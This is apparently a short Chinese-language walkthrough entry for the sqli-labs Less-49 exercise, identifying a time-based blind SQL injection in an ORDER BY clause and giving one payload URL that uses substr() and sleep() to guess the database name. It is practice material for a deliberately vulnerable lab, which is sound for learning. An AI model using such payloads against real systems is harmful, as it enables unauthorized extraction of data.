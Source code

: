 ### Less-49：GET - Error based - string- Blind - ORDER BY CLAUSE

**注入类型**

时间盲注

**闭合方式**

id='\$id'

```sql
http://192.168.65.128/sqli-labs/Less-49/?sort=1' 
and if(substr(database(),1,1)='a',sleep(1),1) --+
```

![](file/image_9-rIxs7qhJ.png)
